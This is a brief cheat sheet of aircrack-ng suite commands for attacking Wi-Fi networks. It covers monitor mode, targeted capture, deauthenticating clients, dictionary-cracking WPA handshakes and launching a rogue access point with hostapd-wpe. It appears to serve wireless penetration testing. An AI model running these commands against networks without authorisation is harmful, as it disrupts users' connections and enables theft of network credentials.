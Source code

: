 # wifi

% wifi, crack

## airmon - start interface
```
airmon-ng start wlan0
```

## airodump - listen to everything
```
airodump-ng wlan0mon
```

## airodump - listen to specific SSID
```
airodump-ng --bssid <mac_address> -c <channel> -w <output_file> wlan0mon
```

## aireplay - deauth clients
```
aireplay-ng --deauth 5 -c <client_mac_address> -a <mac_address> wlan0mon
```

## aircrack - crack handshake for PSK
```
aircrack-ng -w <dictionary> <input_file>
```

## hostapd-wpe - launch fake AP
```
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```